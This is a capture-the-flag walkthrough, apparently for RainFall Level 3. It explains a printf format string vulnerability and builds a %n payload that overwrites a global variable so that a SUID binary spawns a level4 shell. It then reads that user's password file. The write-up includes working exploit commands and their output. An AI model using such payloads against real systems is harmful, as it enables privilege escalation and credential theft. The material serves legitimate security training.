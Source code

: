 # Walkthrough for Level 3

## Understanding the Binary

The `v` function is not vulnerable to a buffer overflow attack since it uses the safe function `fgets` to populate the
buffer. However, it is vulnerable to a format string attack because it passes user input directly to `printf` as a
format string instead of as a plain text string. This type of attack allows us to write to arbitrary memory locations.
On the other hand, we see that if the value of the global variable `m` is 64, a shell is spawned. Since `level3` is a
SUID binary owned by `level4`, the resulting shell will run with the permissions of `level4`. Therefore, we will use a
format string attack to overwrite the value of `m` with 64 and then spawn a shell.

## Understanding the Format String Attack

The format string vulnerability occurs when an attacker can provide a string that the program interprets as a format
instruction, due to a mistake in how the programmer uses functions like printf. This allows the attacker to affect the
program's behavior in unintended ways.

```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

```shell
./example "Hello World %p%p%p%p%p%p"
Hello World %p%p%p%p%p%p
Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC
```

## The format parameter `%n`

The `%n` format specifier in C's `printf` function is used to write the number of characters printed so far into a
variable. Executing the next line of code will result in writing the value 5 into the `m` variable.

```c
printf("AAAAA%n", &m);
```

If the address of a variable is not provided, `%n` will write the number of characters printed so far to the location
pointed to by the next argument on the stack.

## Obtaining the address of the global variable `m`

We use `nm` to find the address of the global variable `m` in the `level3` binary. The address is `0x0804988c`.

```shell
└─$ nm ./level3 | grep "B m"
0804988c B m
```
Converted to little-endian, this address becomes `\x8c\x98\x04\x08`.

## Positional parameters

We can specify the positional parameter in the format string by using `%q$` at the beginning of the format specifier,
where `q` is the position of the parameter in the argument list. The parameter position starts at 1 for the first
argument after the format string.

```c
printf("%1$s %2$s", "November", "10");
```

Output: November 10

## Determining the Position of `&m` in the Stack

We need to find the position of `the address of m` on the stack to use it as our positional parameter. By using `%1$x`,
`%2$x`, etc., we create a string that includes `the address of m` in little-endian format and the values of the next
four elements on the stack.

```shell
level3@RainFall ~ $ python2 -c 'print "\x8c\x98\x04\x08_AAAA_%1$x_%2$x_%3$x_%4$x"' > /tmp/m_position_finder
level3@RainFall ~ $ ./level3 < /tmp/m_position_finder 
�_AAAA_200_b7fd1ac0_b7ff37d0_804988c
```

We find the `address of m` (0x0804988c) at the 4th position on the stack. So we will use 4 as our positional parameter.
Adding the positional specifier to the format parameter results in: `%4$n`.

## Calculating the number of characters needed 

We need to print a total of 64 characters in the printf function to set the value of `m` using the `%n` format
parameter. Since we already print 4 bytes for `\x8c\x98\x04\x08`, we need 60 more characters to reach a total of 64.

## Crafting the Exploit

We craft the final exploit by concatenating:
- the address of `m` in little-endian: `\x8c\x98\x04\x08`
- any character repeated `number_of_characters_needed` times: `"A" * 60`
- the format parameter with the positional specification: `"%4$n"`

exploit = `\x8c\x98\x04\x08` + "A" * number_of_characters_needed + `"%4$n"`

We use Python to generate the exploit and save it to a file:

```shell
level3@RainFall ~ $ python2 -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
```

## Running the Exploit

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `v` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `whoami` command to verify
that the shell is running as the `level4` user.

```shell
level3@RainFall ~ $ cat /tmp/exploit3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

## Getting the Password

Finally, we can read the `.pass` file of `level4` to complete the level.

```shell
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We can now log in via SSH as the `level4` user using the password we just found.
